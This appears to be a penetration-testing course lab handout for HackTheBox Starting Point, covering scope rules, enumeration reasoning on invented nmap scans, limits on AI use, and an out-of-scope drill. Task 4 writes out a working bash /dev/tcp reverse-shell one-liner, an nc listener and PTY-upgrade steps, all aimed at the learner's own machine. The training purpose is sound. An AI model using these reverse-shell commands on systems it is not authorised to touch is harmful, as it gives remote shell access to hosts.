

# Lab 10.1: HackTheBox Starting Point

**Month:** 10 (Offensive Operations)
**Pattern family:** Offensive operations and reporting
**Time budget:** 14 to 16 hours (across many sessions; do not attempt in one)
**Lab attempt floor:** 90 minutes per box you are stuck on, before any hint. This is a medium lab taken one box at a time; the floor resets per box. You sit with each stuck box for the full 90 minutes before reaching for the hint ladder.
**AI guidance:** Recon synthesis only, on data you gathered yourself. AI never finds, chooses, or exploits. See "AI guidance for this lab" below. AI Provenance log mandatory.
**Prerequisites:** Month 10 README read, including the mandatory ethics talk and "AI augmentation this month." `SAFETY.md` and `AI-ETHICS.md` re-read. Kali VM working (Month 0). You can read an `nmap` scan (Month 4) and reason about services and ports (Months 3 and 4).

**Recall first, from memory, before you read on:** in Month 4 you read `nmap` output and watched a TCP handshake. What does an open port tell you, and what does a "filtered" result tell you? (Hold your answer. This lab is about deciding what to do once you have that scan in front of you.)

## The scope rule, first, because it is not optional

You attack **only** HackTheBox machines, reached **only** over the HackTheBox VPN. The Starting Point boxes on HTB infrastructure are authorized for you to attack because HTB's terms of use say so. That authorization is what `SAFETY.md` requires, and it covers nothing else. While the VPN is connected, your machine can route to addresses that are not your target. Do not touch them. Set your target to the single box's IP, confirm it before every scan, and keep your tooling pointed there.

If a scan, an exploit, or a pivot ever reaches a host that is not the box you are working, stop and apply the out-of-scope decision tree in `SAFETY.md`. You will practice that tree in Task 5. This is not a hypothetical.

Before you connect the VPN for the first time, you will write a pre-flight entry (Task 1) stating which legal-target kind this falls under and why. The tutor reads it before you proceed.

## Why this lab exists

You have used `nmap` and read packet captures, but you have never sat in front of an unknown machine with the job of getting in. This lab is where the engagement workflow stops being a diagram and becomes a habit. HTB's Starting Point is built for exactly this: a graduated track of machines, each introducing one or two techniques, with enough structure that you are never fully lost but enough independence that you do the thinking.

The single most important reflex this lab builds is **enumeration over exploitation**. Beginners get stuck because they reach for an exploit before they have learned what the service in front of them actually is. The boxes here are solvable by anyone who enumerates patiently and reads what they find. The boxes are not the point. The reflex is.

This is also where you meet the operator's toolkit on real (if intentionally vulnerable) targets, and where you start practicing tool selection: when to scan broadly versus deeply, when an automated enumerator helps versus when reading the service by hand is faster, and which tools are loud enough that you reach for them knowingly.

## Learning objectives

By the end of this lab, you can:

- **Connect** to the HTB VPN and confirm your target scope before sending a single packet.
- **Explain** each phase of the engagement workflow (recon, enumeration, exploitation, foothold, privilege escalation) as you move a box through it.
- **Analyze** an `nmap` service scan and decide, without a walkthrough, which service to enumerate first and why.
- **Defend** the choice of an enumeration tool for a discovered service (web, SMB, FTP, a database), including when reading the service by hand beats running a tool.
- **Explain** reverse versus bind shells and why the network decides which works, and **stabilize** a raw shell into a usable terminal (a PTY upgrade), practiced on your own VM.
- **Apply** the `SAFETY.md` out-of-scope decision tree to a discovery you did not intend to make.
- **Produce** a methodology log for each box that traces every step to evidence, with no flags recorded.

## Recognition cue

When you are stuck on a box and your instinct is to try another exploit, that instinct is the cue that you have not enumerated enough. The Starting Point boxes are solvable by reading what the services tell you. The stuck feeling means there is a service, a version, a directory, or a configuration you have not looked at yet. The reflex this lab builds: stuck means enumerate, not exploit.

The second cue is the moment you think "let me just point this at something real to see if it works." That thought is the cue to stop and re-read `SAFETY.md`. The box on the HTB VPN is real, and it is the only thing you are authorized to touch.

## The engagement workflow

Here is the loop you move every box through. It is the same loop on every engagement.


*Notice: the loop from "no clear way in" goes back to enumeration, never forward to exploitation. When stuck, you go back, not harder.*

## AI guidance for this lab

The recon-synthesis pattern, in its narrowest form, on a box you do not own. HTB authorizes you to attack the box. It does not authorize an AI to do so for you.

**Allowed:** After you have run your own enumeration and have the raw output in front of you, you may paste **your own non-sensitive scan output** (port and service listings, directory-brute results) into an AI session and ask it to summarize the attack surface: "here is my `nmap` and content-discovery output; group the services and note which are worth enumerating further." You then check every claim in the summary against your raw output before acting on it.

**Not allowed, hard rules:**

- AI does not tell you what to scan, what is interesting, or what to do next. You decide. AI tidies notes you already have.
- AI does not generate exploit code, payloads, or step-by-step exploitation against the box. The box is authorized for *you* to exploit by hand. That authorization does not extend to having a model write the exploit.
- AI is not used to bypass any model's refusal. If a model declines, that is the end of it.
- You do not paste credentials, hashes, tokens, or keys recovered from the box into a public AI service, even though the box is a lab (`AI-ETHICS.md` rule 4).

**Logged:** Every AI interaction goes in your AI Provenance section, especially the discards. AI claiming a service your scan did not show is the exact failure the verification ritual exists to catch.

## Tasks

Do these in order. The first two are unaided setup and reading. The boxes come after.

### Task 1: VPN, scope pre-flight, and tooling check (90 minutes)

Connect your Kali VM to the HTB VPN. Confirm connectivity to a Starting Point box with a single `ping` or a minimal scan. Then write the pre-flight notebook entry for this lab before you do anything else: what the VPN is doing (an encrypted tunnel placing you on a network with the target), which legal-target kind this is (HTB infrastructure over HTB VPN), what artifacts your activity leaves (connection logs on the box, traffic on the tunnel), and what could go wrong (touching a host that is not your target).

**Checkpoint:** the VPN is connected, one target is reachable, and a pre-flight entry exists in `.tutor/notebook/lab-01-htb-starting-point.md` covering the four pre-flight questions.
**If not:** if `ping` to the box fails, confirm the VPN shows connected (a new `tun` interface appears in `ip addr`) and that you copied the right box IP. If the interface is missing, re-read the HTB VPN connection steps and reconnect.

### Task 2: The workflow on paper, before any box (60 minutes)

With no box open, write down the engagement workflow you intend to follow, in your own words: the phases, what each produces, and your default first three enumeration steps for a web service, an SMB service, and an FTP service. This is your playbook. You will revise it as you go, but you write the first version cold so you have something to test against.

**Checkpoint:** a `workflow.md` exists in this lab's directory with the phases and your default first steps per service type, written before you open a box.
**If not:** if you cannot name three first steps for a service, that is a sign to revisit Month 3 and 4 on what that service is and how it is probed. Write what you can, mark the gaps, and fill them as the boxes teach you.

### Task 3: The enumeration reflex (gradual release)

The new skill of this lab is not "solve HTB boxes." It is the **enumeration reflex**: read a scan, decide which service to dig into first, and know why. You will learn that decision in three stages. The first two use a small made-up teaching host so you can practice the decision with no pressure and no box at risk. The third is the real track.

#### Stage 1 - Worked example (I do)

Study this completely. The host below is invented for teaching; it is not a real box and not your deliverable. Suppose your scan of a teaching host `10.10.10.99` returns this:

```
PORT     STATE  SERVICE  VERSION
22/tcp   open   ssh      OpenSSH 8.9
80/tcp   open   http     nginx 1.24.0
445/tcp  open   smb      Samba 4.17.2
8080/tcp open   http     Jetty (Jenkins dashboard, login page)
```

Here is the reasoning an operator runs, line by line:

1. **List what is here.** Four services: SSH, a web server on 80, SMB, and a second web service on 8080 that the scan identifies as a Jenkins login page. Note the version on each. A version is useful, but the most useful thing here is *what a service is*, not just how old it is.
2. **Rank by signal, not by habit.** SSH 8.9 is current and hardened; deprioritize it. The nginx server on 80 is current too; it earns a look but no version-named weakness jumps out. SMB is always worth enumerating for shares and users. The strongest signal is port 8080: an **exposed admin interface** (a Jenkins automation server) sitting on the network with a login page. Admin panels reachable pre-authentication are where real engagements start, because they often allow weak or default credentials, and a logged-in admin console frequently means code execution.
3. **Pick the first dig and say why.** Port 8080 is the strongest single signal, because an exposed admin interface is a high-value, common, current weakness, not a museum piece. So you enumerate it first: read the login page, identify the exact product and version, and check for weak or default credentials and known authentication bypasses for that version. (You confirm credentials against the service itself, on this authorized box; you do not guess wildly or spray.)
4. **Decide tool versus hand.** For the admin panel you read it by hand first (what product, what version, is registration or a default account exposed) before reaching for any tool. For the web server on 80 you would reach for `ffuf` or `feroxbuster` to find hidden content, not `nikto` (too loud for an opening move). For SMB you would run `enum4linux-ng`, the maintained tool.

The whole skill is in steps 2 and 3: read what each service *is*, rank by signal, justify the first move. You are never guessing; the scan told you where to look.

> **A historical aside, so you recognize the pattern but do not over-learn it.** Older training material leads with a banner like `vsftpd 2.3.4`, a 2011 FTP version that shipped with a backdoor. It is a clean illustration of "a version banner that names a known weakness is a strong signal," and you will still meet it on deliberately retro lab boxes. But a 2011 backdoor is a rarity on a real 2026 target. Modern engagements far more often hand you a current service with an exposed admin panel, default or reused credentials, or a misconfiguration (an anonymous SMB share, a directory listing, a dev endpoint left public). Treat the legacy banner as one signal among many, not as the shape every box takes.

**Checkpoint:** you can state, in one sentence, why the Jenkins panel on 8080 is enumerated before SSH on this teaching host.
**If not:** re-read step 2. The rule is "rank by signal, not by habit." A current, hardened SSH is a weak signal; an exposed admin interface that may accept weak or default credentials is a strong one.

#### Stage 2 - Faded practice (we do)

Now you do the reasoning, on a different teaching host, with the steps faded to prompts. This host `10.10.10.50` is also invented; it is not a box. Here is its scan:

```
PORT     STATE  SERVICE  VERSION
22/tcp   open   ssh      OpenSSH 8.9
80/tcp   open   http     nginx 1.18.0
139/tcp  open   smb      Samba 4.13.2
3306/tcp open   mysql    MySQL 8.0.27
```

Fill in this reasoning in `workflow.md` under a heading "Stage 2 practice":

```
# 1. List the services and their versions:
#    TODO: write the four services and versions

# 2. Rank each as strong / medium / weak attack-surface signal, with one reason:
#    SSH 8.9  -> TODO (signal? why?)
#    HTTP nginx 1.18.0 -> TODO
#    SMB Samba 4.13.2  -> TODO
#    MySQL 8.0.27 (exposed to the network) -> TODO

# 3. Which service do you enumerate FIRST, and what is your first concrete step?
#    TODO: name the service, the tool-or-by-hand choice, and why

# 4. Which tool would you use on the web service, and which would you keep out of your opening move?
#    TODO
```

The point is not a "correct answer key." The point is that every choice has a stated reason tied to the scan. An exposed database and an open SMB are both worth a careful look; a current SSH is not your first move.

**Checkpoint:** your Stage 2 reasoning names a first service with a reason drawn from the scan, and correctly keeps `nikto` out of the opening move.
**If not:** if you ranked SSH as your first target, you are ranking by habit, not signal. If you chose `nikto` first, re-read why it is a poor opening instrument in the month README. Go back to the scan and let the versions and exposed services drive the choice.

#### Stage 3 - Independent (you do)

No scaffolding now, and now it is real. Work the Very Easy Starting Point machines in order, then the Easy ones. For each box: scan, then run the same reasoning you just practiced (list, rank by signal, pick the first dig, justify it), then enumerate, find the way in, get a foothold, and reach the goal the box sets. Keep a **methodology log** per box (not a flag log): what you scanned, what you found, what you tried, what worked, what you would do faster next time. Apply the floor: if you are stuck, sit with the box for 90 minutes (more enumeration, not more force) before any hint.

A reminder on tool selection as you go: prefer `enum4linux-ng` over the older `enum4linux` for SMB; reach for `ffuf` or `feroxbuster` for web content discovery; keep `nikto` out of your opening moves. When a box has one obvious service, reading it by hand often beats running a scanner at all.

**Checkpoint:** every Very Easy and Easy box is completed, with a methodology log per box in `methodology-logs/` in this lab's directory. No flags in the logs. Each log shows the "list, rank, pick, justify" reasoning, not exploit-first guessing. Your `workflow.md` from Task 2 has visible revisions with a short "what I changed and why" note at the bottom.
**If not:** if a box has you fully stuck past the floor, the gap is enumeration: a service you have not read by hand, a directory you have not brute-forced, a version you have not looked up. Do not read a walkthrough. Open the hint ladder and ask a methodology question, never a flag question.

### Task 4: Foothold mechanics, shells and stabilizing (gradual release)

The reflex above gets you to the way in. The moment you use it you hit the next wall: you have **code execution** but not a usable shell. This task closes that gap before a box forces it on you. Read the "Foothold delivery" concept in the month README first. Then you practice the mechanics, **on your own machine only**, never as a step in solving an HTB box. The skill is the catching and stabilizing of a shell; you build that skill on a target you own so it is ready when a box hands you execution.

A hard scope note for this task: every command below runs **between your own Kali VM and a VM you own** (your VulnHub VM on an isolated network, or even Kali talking to itself on loopback). You are not pointing any of this at an HTB box. This is skill-building on owned hardware, which is the cleanest authorization story there is.

#### Stage 1 - Worked example (I do)

Study this. The goal is to *see* the shape of catching and stabilizing a shell, on a throwaway target you own, with nothing at stake.

1. **Stand up a listener.** On your Kali VM, start a listener on a high port: `nc -lvnp 4444`. This is the program that waits for an incoming connection. It is doing nothing dangerous; it is sitting on a port.
2. **Make something connect back to it.** From the *same* machine (or your own second VM), simulate a target calling home: open another terminal and run `bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'`. Your listener catches a shell. Notice what you got: a prompt, but a fragile one.
3. **Feel the fragility.** In that caught shell, press Ctrl-C. It kills the whole session, not just a command. Try an interactive program; it misbehaves. There is no tab completion and no history. This brittleness is exactly what you get on a real foothold, and it is normal.
4. **Stabilize it (the PTY upgrade).** Spawn a real terminal: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Then background the shell (Ctrl-Z), and on your own Kali side run `stty raw -echo; fg`, and back in the shell set a terminal type with `export TERM=xterm`. Now Ctrl-C interrupts a command instead of killing the session, tab completion works, and interactive programs behave. That sequence is the standard upgrade.

The lesson is not the exact incantation. It is the *shape*: a listener waits, the target connects back, the first shell is brittle, and stabilizing it is a known, ordinary step.

**Checkpoint:** you caught a shell with `nc` on your own machine and upgraded it so Ctrl-C no longer kills the session.
**If not:** if the connect-back line does nothing, confirm the listener is running and the port matches. If the PTY upgrade leaves your terminal garbled after the shell exits, run `reset` to restore it; that garbling is the `stty raw` change still in effect, and `reset` clears it.

#### Stage 2 - Faded practice (we do)

Now reason it out yourself, on your own setup, with the steps faded to prompts. Use your VulnHub VM (or your second VM) as the thing that connects back to a listener on your Kali host, on an isolated network you control. Fill this in as `shell-handling.md` in this lab's directory:

```
# 1. Reverse vs bind: your target sits behind a firewall that blocks new inbound
#    connections but allows outbound. Which shell type works, and why?
#    TODO

# 2. Listener: what one command starts a listener on port 9001, and what is it doing?
#    TODO

# 3. You caught a raw shell. Name two things that are broken about it before you stabilize it.
#    TODO

# 4. Stabilize it: write the ordered steps of the PTY upgrade, in your own words,
#    and say what each step fixes.
#    TODO

# 5. When would a bind shell be the right choice instead of a reverse shell?
#    TODO
```

There is no single answer key. The test is that your reverse-vs-bind choice ties to the network position (who can initiate a connection), not to a preference.

**Checkpoint:** `shell-handling.md` answers all five, your reverse-vs-bind reasoning is about the network (outbound allowed, inbound blocked), and your PTY-upgrade steps are in the right order with a reason for each.
**If not:** if you cannot say why a reverse shell beats a bind shell here, re-read the README concept: most targets cannot accept a new inbound connection, so the target initiating the connection out to you is what works. If your upgrade steps are out of order, redo Stage 1 slowly and write each step as you do it.

You do **not** perform shell-catching as part of solving any HTB box in Stage 3 of Task 3; you build the skill here, on your own VM, and carry the understanding into the boxes. When a box gives you execution, you will know what to reach for.

### Task 5: The out-of-scope drill (30 minutes)

This is a deliberate exercise, not a real incident. Re-read the out-of-scope decision tree in `SAFETY.md`. Then write, in this lab's directory, a one-page `out-of-scope-drill.md` answering: if while connected to the HTB VPN your scan returned a host that is clearly not your target box (say, the VPN gateway, or another user's box), what is the correct sequence of actions, and why is each one correct? Tie each step to the specific branch of the `SAFETY.md` tree it comes from.

**Checkpoint:** `out-of-scope-drill.md` maps the correct response to the `SAFETY.md` decision tree, in your own words.
**If not:** if your steps do not line up with the tree's branches, re-read the tree. The first move is almost always "stop and do not interact further," not "investigate the surprise host."

### Task 6: Notebook entry with AI Provenance (60 minutes)

Complete `.tutor/notebook/lab-01-htb-starting-point.md`. Required sections:

- **Pre-flight check** (from Task 1, expanded if you used new tools): for each new tool you ran, what it does at the packet or filesystem level, what artifacts it leaves on the box and on your Kali host, what could go wrong, and the authorization scope. Include `nc` and your shell-stabilizing steps from Task 4 here (a listener and a reverse shell leave connection traces; name them).
- **Concept naming.** What did this lab teach? Hint: it is not "how to use HTB."
- **Evidence:** references to your methodology logs and `workflow.md`, with key findings summarized. No flags.
- **Five-question debrief.**
- **AI Provenance:** which AI tool, what raw data you supplied, what summary it produced, how you verified each claim against your output, and what you discarded. If you did not use AI on this lab, say so and say why. That is a valid entry.

**Checkpoint:** the entry is committed with all sections, no flags, and a substantive AI Provenance section (or an honest "AI not used here, because" note).
**If not:** if your provenance section is one line, the tutor will reject it. The test is whether a reader could redo your AI conversation from your notes.

## Definition of Done

The lab is complete when:

- The VPN scope pre-flight is in your notebook and correctly identifies the legal-target kind.
- Every Very Easy and Easy Starting Point box has a methodology log, none containing a flag.
- `workflow.md` exists, was written before the boxes, and shows revisions.
- `shell-handling.md` exists, and you have caught and stabilized a shell on your own VM (Task 4).
- `out-of-scope-drill.md` maps correctly to the `SAFETY.md` decision tree.
- The notebook entry is committed with a complete AI Provenance section.

The tutor will run the verification ritual: it picks one box from your methodology logs and asks you to explain, from memory, why you enumerated the service you enumerated first and how you knew it was the way in. If you can answer cleanly, you did the thinking yourself. The tutor will also ask you to walk one branch of the out-of-scope decision tree from memory. The tutor will not confirm any flag.

**Self-explain:** in one sentence, why does ranking services by signal (not by habit) make you faster at finding the way into a box?

## Stretch goals

1. After a box is done, write a three-line "detection note": what your loudest action was, and what a defender's log would have shown. This is a warm-up for the Lab 10.2 detection reconciliation.
2. For one box, redo the enumeration with the single noisiest tool you can justify and the single quietest, and compare what each found and what each would have left in the logs.
3. Take one of your `workflow.md` per-service playbooks and turn it into a short checklist file you can reuse on every future box.
4. Re-solve one completed box from your methodology log alone, with the box closed, to test whether your log is truly reproducible.

## Troubleshooting

- **VPN connects but the box is unreachable.** Confirm a `tun` interface exists (`ip addr`), confirm you are using the box's current IP (HTB rotates them), and try a single `ping` before any scan.
- **Every port shows "filtered."** The box may not be started, or a firewall is dropping probes. Confirm the box is spawned on the platform and reachable at all before assuming your scan is wrong.
- **You touched a host that is not your target.** Stop immediately and apply the `SAFETY.md` decision tree, exactly as you wrote it in Task 5. This is the drill becoming real.
- **You are tempted to read a walkthrough during the floor.** That is the signal to enumerate more, not to read the answer. Open the hint ladder for a methodology nudge instead.
- **The tutor will not confirm your flag.** It never will, by design. Submit flags on the platform; the platform tells you. If your flag is rejected, that is a methodology conversation.

## Time budget breakdown

- Task 1: 90 minutes
- Task 2: 60 minutes
- Task 3: Stage 1 about 30 minutes, Stage 2 about 30 minutes, Stage 3 the bulk (10 to 11 hours across sessions, Very Easy then Easy)
- Task 4: 45 to 60 minutes (foothold mechanics on your own VM)
- Task 5: 30 minutes (out-of-scope drill)
- Task 6: 60 minutes (notebook entry)
- Buffer for boxes that fight you: 1 to 2 hours

Total: 14 to 16 hours across many sessions.

## Resources

Primary sources only. Per-box walkthroughs are deliberately excluded; reading one during the floor leaves the curriculum.

- The HackTheBox VPN connection documentation (official; for Task 1).
- `man nmap`, specifically host discovery, service and version detection, and the timing template section.
- The `enum4linux-ng` project documentation (the maintained successor to `enum4linux`).
- The `ffuf` and `feroxbuster` official documentation (content discovery).
- NIST SP 800-115, the Technical Guide to Information Security Testing and Assessment, for the phases of an assessment.
- GTFOBins and LOLBAS as reference catalogs you will read, not run blindly.
- Your own Month 4 notebook entries on reading `nmap` output and packet captures.
